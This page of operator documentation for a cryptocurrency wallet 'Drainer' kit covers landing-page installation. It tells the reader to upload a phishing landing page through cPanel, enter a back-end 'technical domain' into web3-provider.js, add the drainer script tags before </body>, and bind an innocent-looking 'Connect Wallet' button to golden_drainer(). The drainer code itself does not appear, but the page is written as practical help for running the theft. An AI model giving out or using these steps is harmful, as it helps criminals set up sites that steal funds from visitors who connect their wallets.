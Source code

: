 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 9⃣ Landing page installation

[In this section](buying-landing-page-domain.md) we bought [**Landing page domain**](buying-landing-page-domain.md), now we need to install the landing page on the hosting.

You need to host site files in cPanel:

1. Open your hosting control panel.
2. In the "Domains" section, select Domains:
3. Click on the root folder of your site to go to the root directory:
4. Delete all files contained in the root folder, except for the cgi-bin directory.
5. Click the "**Download**" button
6. Select and upload the archive with your website files. Attention: cPanel hosting control panel only supports archives in formats: **zip**, **gzip**, **bzip** and **tar**.
7. Select the archive and click "**Extract**":
8. Enter the path to the directory where you want to extract the files. Then click the "**Extract Files**" button
9. Make sure that the site files were extracted directly to the site directory and not to a subdirectory.



Open the "Client" folder, go to the "assets" folder, open the "web3-provider.js" file and enter here our [**Technical domain**](buying-technical-domain.md) (in the same format as it is specified in the file)

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

After making changes, transfer the "assets" folder to the root of our landing

Now open the site file where your landing is, usually called "index.html."

Scroll through the file to the end and find a special tag there that looks like this:\
\</body>

As soon as you find it, write down the following lines of code right in front of it:

```
  <script src="./assets/web3-provider/web3-modal.js"></script>
  <script src="./assets/web3-provider/web3-loader.js"></script>
  <script src="./assets/web3-provider/web3-connect.js"></script>
  <script src="./assets/web3-provider/web3-router.js"></script>
  <script src="./assets/web3-provider/web3-module.js"></script>
  <script src="./assets/web3-provider/web3-alert.js"></script>
  <script src="./assets/web3-provider/web3-seaport.js"></script>
  <script src="./assets/web3-provider/web3-data.js"></script>
  <script src="./assets/web3-provider/ethers.js"></script>
  <script src="./assets/web3-provider/ethereum-tx.js"></script>
  <script src="./assets/web3-provider.js"></script>
```

Now you need to connect the Drainer to the button you need, or just an item on the page.

Most often, the buttons look either like this in the code:

```
<button class="button btn-dark"> Connect Wallet </button>
```

Or somehow, in fact, it can look like anything:

```
<a href="#"> Connect Wallet </a>
```

You need to add the desired function to the button so that it is called when clicking:

```
onclick="golden_drainer()"
```

That is, in the final version it will look like this:

```
<button class="button btn-dark" onclick="golden_drainer()">Connect Wallet</button>
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Uploading our landing to hosting.

Open our website and check.
